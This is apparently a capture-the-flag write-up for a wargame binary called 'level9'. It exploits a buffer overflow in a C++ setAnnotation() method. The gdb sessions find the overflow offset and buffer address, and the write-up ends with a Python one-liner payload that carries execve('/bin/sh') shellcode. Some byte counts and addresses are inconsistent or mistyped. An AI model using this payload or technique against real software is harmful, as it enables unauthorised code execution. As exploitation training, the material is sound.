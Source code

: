 We started by running the executable and found that it currently does nothing significant.
Analyzing it with `gdb`, we identified five interesting functions:
```
...
N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)
main
...
```
The main function is written in C/C++, and there are no direct calls to `/bin/sh`, indicating that we will need to use shellcode to exploit this program.

The `setAnnotation()` function uses `memcpy()` on `argv[1]`, making it vulnerable to a buffer overflow. We need to determine the offset at which the buffer overflows.

We determine the offset with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```
The offset of `eax` start at 108.

We selected a 21-byte shellcode from: https://shell-storm.org/shellcode/files/shellcode-752.html

To exploit the buffer overflow, we must find the start address of our buffer and replace the value of `esp+0x10 `with it, ensuring that the call to `edx` will execute our shellcode.
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141
```
`
The value of `[esp+0x10] will be replaced with `0x804a00c`.
Because we need to dereference again, this address will points to the beginning of our shellcode : `0x804a00x + 4 = 0x804a010`.

Our payload structure is:
-   Shell Address: 4 bytes
-   Shellcode: 28 bytes
-   Padding: 76 bytes
-   Buffer Address: 4 bytes

Final exploit payload::
```
python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```

